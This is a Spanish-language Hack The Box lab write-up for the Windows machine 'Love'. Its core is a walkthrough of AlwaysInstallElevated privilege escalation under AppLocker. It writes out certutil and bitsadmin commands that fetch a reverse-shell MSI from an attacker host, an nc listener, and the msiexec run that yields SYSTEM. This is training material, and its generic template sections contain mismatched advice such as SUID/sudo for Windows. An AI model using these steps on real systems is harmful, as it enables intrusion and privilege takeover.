# Informe Técnico de Seguridad Ofensiva: Love


**Evaluación de Seguridad Ofensiva y Penetration Testing** realizada sobre el entorno de laboratorio **Love** de **Hack The Box**, siguiendo los estándares de ejecución metodológica **OffSec PEN-200 (OSCP)** y **PTES (Penetration Testing Execution Standard)**.

---

## 📑 1. Resumen Ejecutivo (Executive Summary)

* **Objetivo de la Evaluación:** Identificar, documentar y explotar debilidades de seguridad en el host objetivo para evaluar el impacto sobre la confidencialidad, integridad y disponibilidad del sistema.
* **Calificación de Riesgo:** `CRÍTICO` (Acceso no autenticado que deriva en compromiso completo de la máquina y obtención de máximos privilegios administrativos).
* **Vector de Acceso Inicial:** Explotación de servicio de red
* **Vector de Elevación de Privilegios:** Escalada local de privilegios
* **Estado Final:** Compromiso total del objetivo (`User Proof` y `Root/System Proof` obtenidas exitosamente).

### Ficha Técnica de la Evaluación

| Parámetro | Detalle Técnico |
| :--- | :--- |
| **Host Objetivo** | Love |
| **Plataforma** | Hack The Box |
| **Sistema Operativo** | Windows |
| **Nivel de Dificultad** | Easy |
| **CVE(s) Involucrados** | N/A |
| **Vector de Entrada** | Explotación de servicio de red |
| **Mecanismo de Escalada** | Escalada local de privilegios |
| **Consultor / Auditor** | Pedro Araiz (`araizcorp`) |

---

## 🎯 2. Diagrama del Flujo de Compromiso (Attack Path)

```
[ Fase 1: Reconocimiento ]
         │
         ▼
[ Fase 2: Enumeración & Identificación de Vectores ]
         │─── Descubrimiento de servicios y análisis de superficie de ataque
         └─── Verificación de configuraciones erróneas y CVEs conocidos
         │
         ▼
[ Fase 3: Explotación Inicial (Foothold) ]
         │─── Ejecución del vector: Explotación de servicio de red
         └─── Establecimiento de Reverse Shell / Acceso de usuario
         │
         ▼
[ Fase 4: Escalada de Privilegios Local ]
         │─── Auditoría interna: Escalada local de privilegios
         └─── Elevación a privilegios de superusuario (root / SYSTEM)
         │
         ▼
[ Fase 5: Evidencia & Banderas ]
         └─── Captura de User Flag y Root Flag
```

---

## 🔬 3. Procedimiento Técnico y Evidencias Paso a Paso

Enumeration

















R: afba0b94679533a7dff05c3e38cb08a1









R: ed178fcecb8337701f730095f8930260







> 
> 
> 
> # ¿Qué es AlwaysInstallElevated?
> 
> Si **ambas** claves están a `1`:
> 
> - `HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`
> - `HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated`
> 
> cualquier **.msi** que un usuario ejecute con `msiexec` se instala con **NT AUTHORITY\SYSTEM**.
> 
> Es un “regalo” típico de privesc en Windows.
> 
> Comprueba así:
> 
> ```bash
> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
> 
> ```
> 
> Debe devolver `0x1` en ambos.
> 
> # ¿Por qué tu primer intento fallaba?
> 
> Porque además había **AppLocker** activo. AppLocker puede limitar qué **tipos de fichero** (MSI/EXE/Script) se pueden ejecutar, **desde qué rutas** y **por qué usuarios**.
> 
> En tu caso la política permitía **MSI solo para “Phoebe” y Administrator** y **solo desde un directorio concreto** (p. ej. `C:\Administration\`).
> 
> Si ejecutas el MSI desde fuera de esa ruta, AppLocker lo bloquea **antes** de que AlwaysInstallElevated pueda elevar.
> 
> Comprueba la política efectiva:
> 
> ```powershell
> Get-AppLockerPolicy -Effective | Select -ExpandProperty RuleCollections |
>   Where-Object {$_.CollectionName -eq 'MsiAndScript'} |
>   Select -ExpandProperty Rules | Select Name,UserOrGroupSid,Condition
> 
> ```
> 
> (Ataja: `get-applockerpolicy -effective | select -expandproperty rulecollections` y busca la colección **MsiAndScript**. Ahí verás el **Path** permitido y los **usuarios**)
> 
> También puedes ver las reglas en el registro:
> 
> ```powershell
> Get-ChildItem 'HKLM:\Software\Policies\Microsoft\Windows\SrpV2\Msi' -Recurse |
>   Get-ItemProperty | Select PSChildName, User, Value, Description
> 
> ```
> 
> # Explotación paso a paso (lo que hiciste)
> 
> 1. Confirmas AIE (las dos claves a 1) y localizas la **ruta permitida** por AppLocker.
> 2. Generas un MSI malicioso (reverse shell).
>     - Con msfvenom suele valer: `f msi` (o empaquetas tu EXE en un MSI).
> 3. **Descargas/colocas el MSI dentro de la ruta permitida** (ej.: `C:\Administration\reverse.msi`).
>     
>     Opciones de descarga sin PowerShell:
>     
>     ```bash
>     certutil -urlcache -f http://LHOST:8000/reverse.msi C:\Administration\reverse.msi
>     bitsadmin /transfer j1 http://LHOST:8000/reverse.msi C:\Administration\reverse.msi
>     
>     ```
>     
> 4. Listener listo:
>     
>     ```bash
>     rlwrap nc -lvnp 4444
>     
>     ```
>     
> 5. Ejecutas con SYSTEM gracias a AIE:
>     
>     ```bash
>     msiexec /quiet /i C:\Administration\reverse.msi
>     
>     ```
>     
> 
> Si tu usuario es **Phoebe**, AppLocker te deja ejecutar desde esa carpeta, y AIE hace el resto ⇒ **shell como SYSTEM**.
> 
> # ¿Cómo detectar esto rápido en futuras máquinas?
> 
> **Checklist exprés de Windows privesc:**
> 
> 1. **AIE**
>     
>     ```
>     reg query HKLM\...\Installer /v AlwaysInstallElevated
>     reg query HKCU\...\Installer /v AlwaysInstallElevated
>     
>     ```
>     
> 2. **AppLocker (si existe)**
>     
>     ```
>     Get-AppLockerPolicy -Effective | select -expandproperty RuleCollections
>     
>     ```
>     
>     - Localiza colección **MsiAndScript**: busca **Allow por ruta** y **usuarios**.
>     - Apunta las rutas permitidas (p. ej. `C:\Windows\Tasks\*`, `C:\Administration\*`, etc.).
> 3. **¿Puedes escribir en esa ruta?**
>     
>     ```
>     icacls C:\Administration
>     
>     ```
>     
>     Si no, intenta otras rutas Allow de AppLocker o busca otro vector.
>     
> 4. **Transferencia sin PowerShell** (por si está restringido): `certutil`, `bitsadmin`, `ftp`, `curl.exe`, `wget.exe` (si existe).
> 5. **Plan B** si el MSI sigue bloqueado:
>     - Busca **otras reglas Allow** (EXE/Script) y **LOLBINs** permitidos (msbuild, installutil, regsvr32, rundll32, etc.).
>     - WinRE/Servicios/Scheduled Tasks/Unquoted paths/Permisos débiles en binarios y carpetas.
> 
> # ¿Por qué winPEAS no lo marcó?
> 
> - Algunas versiones sólo avisan si **ambas** claves AIE están a 1. Si una faltaba cuando lo ejecutaste, no salta.
> - En sistemas con **AppLocker Enforcement**, PEAS puede mostrar AppLocker activo pero no siempre resalta “esta ruta concreta te deja MSI para tu usuario”. Por eso conviene **mirar la política efectiva** manualmente como arriba.
> 
> # Mini-resumen para tu writeup
> 
> - **Hallazgo:** `AlwaysInstallElevated=1` en HKLM y HKCU.
> - **Restricción:** AppLocker “MsiAndScript” sólo permite a *Phoebe* y *Administrator* ejecutar MSI desde `C:\Administration\`.
> - **Acción:** genero `reverse.msi`, lo ubico en `C:\Administration\`, `msiexec /quiet /i reverse.msi`.
> - **Resultado:** shell como **SYSTEM**.

---

## 🛡️ 4. Plan de Remediación y Recomendaciones de Hardening

### Acciones Tácticas Inmediatas
1. **Aplicación de Parches y Actualización:** Actualizar todos los servicios obsoletos y aplicar los parches correspondientes a las vulnerabilidades documentadas (N/A).
2. **Revisión de Permisos Críticos:** Eliminar permisos SUID/sudo innecesarios y auditar listas de control de acceso (ACLs) en directorios y archivos sensibles.
3. **Cierre de Superficie de Exposición:** Configurar firewalls a nivel de host para denegar puertos de administración o de depuración que no deban estar expuestos públicamente.

### Acciones Estratégicas y de Arquitectura
1. **Principio de Mínimo Privilegio (PoLP):** Configurar servicios y aplicaciones para que se ejecuten bajo cuentas de servicio con privilegios limitados sin acceso a shells interactivas.
2. **Segmentación de Red:** Aislar componentes críticos y servidores de aplicaciones en VLANs dedicadas con inspección de tráfico Este-Oeste.
3. **Monitorización Continua y EDR:** Implementar reglas de detección basadas en comportamiento para identificar ejecuciones anómalas de comandos, spawning de shells y tráfico de red no autorizado.

---

## 📊 5. Mapeo con Matriz MITRE ATT&CK

| Táctica | ID de Técnica | Nombre de Técnica | Aplicación en el Ejercicio |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | `T1595.002` | Vulnerability Scanning | Detección automatizada y manual de servicios mediante escaneo de puertos |
| **Initial Access** | `T1190` | Exploit Public-Facing Application | Explotación de vulnerabilidad en servicio de red expuesto (Explotación de servicio de red) |
| **Execution** | `T1059` | Command and Scripting Interpreter | Spawning de reverse shell interactiva para control del endpoint |
| **Privilege Escalation** | `T1068 / T1548` | Abuse Elevation Mechanism / Exploitation | Elevación de privilegios hacia superusuario (Escalada local de privilegios) |

---

© 2026 **araizcorp** — Documentación técnica desarrollada para preparación y consultoría de certificaciones **OffSec** (OSCP, OSEP, OSWE).
